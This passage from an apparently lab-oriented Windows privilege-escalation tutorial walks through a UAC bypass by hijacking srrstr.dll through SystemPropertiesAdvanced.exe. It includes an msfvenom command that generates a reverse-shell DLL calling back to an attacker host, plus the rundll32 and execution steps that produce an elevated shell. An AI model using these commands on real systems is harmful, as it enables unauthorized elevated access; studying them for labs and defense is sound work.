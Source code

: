 And to check UAC level:
```console
C:\htb> REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
```

The level **0x5** is the highest level, which means **Always notify** is enabled. There are fewer UAC bypasses at this highest level. Let's examine the build of Windows we're looking to elevate on:
```console
PS C:\zeropio> [environment]::OSVersion.Version
```

With the return code, we can check it [here](https://en.wikipedia.org/wiki/Windows_10_version_history). Now we can search in the Github [UACME](https://github.com/hfiref0x/UACME), and search for our current version.

Let's see for a Windows 10 build 14393. According to UACME, is the technique 54. This technique targets the 32-bit version of the auto-elevating binary SystemPropertiesAdvanced.exe. There are many trusted binaries that Windows will allow to auto-elevate without the need for a UAC consent prompt. The 32-bit version of **SystemPropertiesAdvanced.exe** attempts to load the non-existent DLL **srrstr.dll**, which is used by System Restore functionality. When attempting to locate a DLL, Windows will use the following search order:
1. The directory from which the application loaded.
2. The system directory `C:\Windows\System32`{: .filepath} for 64-bit systems.
3. The 16-bit system directory `C:\Windows\System`{: .filepath} (not supported on 64-bit systems)
4. The Windows directory.
5. Any directories that are listed in the PATH environment variable.

Let's examine the path variable:
```console
PS C:\zeropio> cmd /c echo %PATH%
```

We can potentially bypass UAC in this by using DLL hijacking by placing a malicious srrstr.dll DLL to WindowsApps folder, which will be loaded in an elevated context. Generate the DLL:
```console
zero@pio$ msfvenom -p windows/shell_reverse_tcp LHOST=<OUR IP> LPORT=8443 -f dll > srrstr.dll
```

Download the malicious payload and start a netcat. If we execute the malicious **srrstr.dll** file, we will receive a shell back showing normal user rights (UAC enabled), run **rundll32.exe** to get a reverse shell connection:
```console
C:\zeropio> rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll
```

Now, we can execute the 32-bit version of **SystemPropertiesAdvanced.exe** from the target host:
```console
C:\zeropio> C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

This is successful, and we receive an elevated shell that shows our privileges are available and can be enabled if needed.

## Weak Permissions 
